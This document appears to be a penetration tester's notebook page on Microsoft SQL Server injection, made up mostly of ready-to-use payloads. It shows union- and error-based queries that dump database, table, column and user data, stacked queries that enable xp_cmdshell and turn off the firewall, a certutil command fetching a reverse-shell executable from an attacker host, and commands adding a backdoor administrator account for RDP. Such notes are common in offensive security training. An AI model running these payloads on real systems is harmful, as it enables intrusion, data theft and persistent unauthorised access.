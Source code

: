 #### SQLi GUIDE
[https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)
[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
[http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html)
---
#### Union Based attack
From here we can observe that there are likely 3 columns, Name, Title, and Year.
Let's try to find out the number of columns using "order by" clause:
```sql
' order by 1--
```
no error message
```sql
' order by 5--
```
error message
```sql
' order by 4--
```
error message
```sql
' order by 3--
```
error message
```sql
' order by 2--
```
no error message
So as of now we know that 2 is the last column which worked, let us prepare the union select statement
```sql
' union select 1,2--
```
```sql
' union select null,null--
```
```sql
' union select '1111',null--
```
```sql
' union select null,'2222'--
```
```sql
' union select user,null--
```
```sql
' union select @@version,null--
```
```sql
' union select db_name(),null --
```
#### Code execution
```sql
' union select user,null; WAITFOR DELAY '0:0:5' ; --
```
This works, as it takes five seconds for the page to load, and still displays that our SQL code executed. Now, we'll start stacking in other commands from the resource to continue.
```sql
' union select user,null; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```
Enable xp_cmdshell:
```sql
' union select user,null; RECONFIGURE; --
```
```sql
' union select user,null; EXEC sp_configure 'xp_cmdshell', 1; --
```
```sql
' union select user,null; RECONFIGURE; --
```
Disable Firewall:
```sql
' union select user,null; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```
#### MSSQL reverse shell
[[1._Reverse Shells (WIN)]]
[[4._File Transfers]]
[[Python#Server]]
```
' union select user,null; exec master..xp_cmdshell 'certutil -urlcache -split -f http://$KALI/reverse64.exe'; --
```
[[1._rlwrap]]
```
' union select user,null; exec master..xp_cmdshell 'reverse64.exe'; --
```
#### MSSQL RDP access
Add foobar as a new user:
```sql
' union select user,null; exec master..xp_cmdshell 'net user foobar pass123 /add'; --
```
Add foobar to Administrators group
```sql
' union select user,null; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```
Rdesktop as foobar:
```bash - kali
rdesktop $TARGET -u foobar -p pass123 -g 1024x768 -x 0x80
```
---
#### Error Based attack
```sql
1 AND 1=CONVERT(INT,@@version)--
```
In our example, we used ', to trigger the exploit.
```sql
',=CONVERT(INT,@@version)--
```
Extract number of databases:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```
Extract database names (replace N with a number starting from 1):
```sql
',=CONVERT(INT,db_name(N))--
```
```sql
',=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```
Extract table count:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```
Extract table names (replace N with a number starting from 1):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```
To extract column names (replace TABLE_NAME string with appropriate table name found above):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```
Enumerate through by changing "top ==1== column_name..." "top ==2== column_name..." "top ==3== column_name..." and so on.
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```
![[Pasted image 20220406213851.png]]
To extract data, first count the entries in the table (replace table1 with appropriate table name):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```
Then, assuming the columns we wish to extract from are called column1 and column2:
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+user_id FROM (SELECT top 1 email, user_id FROM users ORDER BY email ASC) sq ORDER BY email DESC)+CHAR(58)+CHAR(58))))--
```
Extract tables from another database (change other_database and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```
Extract columns from another database (change other_database, other_table and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```
![[Pasted image 20220406214220.png]]
See how many data entries there are in another database (change other_database and other_table):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [archive]..[pmanager] )+CHAR(58)+CHAR(58))))--
```
Extract data from another database (change other_database, other_table, other_column and increase N):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY alogin ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```
![[Pasted image 20220406214419.png]]
![[Pasted image 20220406214506.png]]